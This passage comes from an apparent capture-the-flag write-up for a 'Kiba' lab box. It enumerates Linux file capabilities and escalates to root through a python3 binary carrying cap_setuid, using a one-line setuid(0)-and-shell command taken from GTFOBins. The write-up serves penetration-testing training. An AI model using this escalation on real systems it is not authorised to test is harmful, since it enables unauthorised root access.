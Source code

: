 ```
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
```

I wonder which one it is...

Navigating to `/home/kiba/.hackmeplease/python3` we can craft up a simple script from [GTFOBins](https://gtfobins.github.io/gtfobins/python/#capabilities) to gain root access.

```bash
/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

And we are now root!

---

### Final thoughts

A super simple and straight-forward room. Recommended for beginners and can be an extra challenge to make it medium by designing the reverse-shell script yourself with regards to prototype pollution.

---

![](https://c0.klipartz.com/pngpicture/33/502/gratis-png-elasticsearch-apache-licencia-consulta-lenguaje-kibana-buscar-thumbnail.png)

